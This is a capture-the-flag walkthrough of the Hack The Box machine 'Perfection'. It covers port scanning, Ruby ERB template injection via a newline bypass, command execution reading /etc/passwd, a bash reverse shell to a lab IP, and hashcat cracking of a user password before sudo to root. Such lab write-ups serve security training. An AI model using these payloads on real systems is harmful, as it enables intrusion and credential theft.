

# [Perfection](https://app.hackthebox.com/machines/perfection)

```bash
nmap -p-  --min-rate 5000 10.10.11.253 -Pn
```


After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.253 -Pn
```


After browsing web application, I can see such web page.


Let's enumerate this web application. So that, while we saw HTTP response headers, we can get enumeration about web application.


We know that `WEBrick/1.7.0` is used and `Ruby/3.0.2` is programming language.


Let's enumerate calculator via fuzzing values.


Let's enter data for `category` fields. So that, I just do `CRLF` injection by adding `%0A` character means `New Line`.


As this application is programmed in `Ruby` language, let's test `Ruby` SSTI(Server-Side Template Injection) payloads.


**Note:** But we need to enter payload as `URL` encoded.
```bash
<%= 7*7 %>
```


As this `SSTI` payload worked, let's try other command execution.
```bash
<%= `cat /etc/passwd` %>
```


Now, it's time for reverse shell payload.
```bash
<%= `bash -c 'bash -i >& /dev/tcp/10.10.14.4/1337 0>&1'` %>
```


Now, we enter `URL` encoded payload.


Hola! I got reverse shell from port `1337`.


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```


user.txt


While I run `id` command, I see that `susan` user belongs to `sudo` group but we don't know his password.


After enumeration of machine, I find `pupilpath_credentials.db` file on `Migration` directory. Let's read this via `sqlite3`.


Maybe this hash belongs to password of system user `susan`.

Again, I make enumeration and look at `/var/mail/susan` file which contains sensitive information about password cracking via correct algorithm.


So, that's why we need to find correct number which located between 1 and 1 million.


We learn hash type via `hash-identifier` tool.




Let's take this hash and crack via `hashcat` via below syntax.

```bash
hashcat -m 1400 -a 3 hash.txt susan_nasus_?d?d?d?d?d?d?d?d?d
```


susan: susan_nasus_413759210


I just run `sudo -l` and see that `(ALL: ALL) ALL`, that's why I just do `sudo -s` and gain root privilege.


root.txt

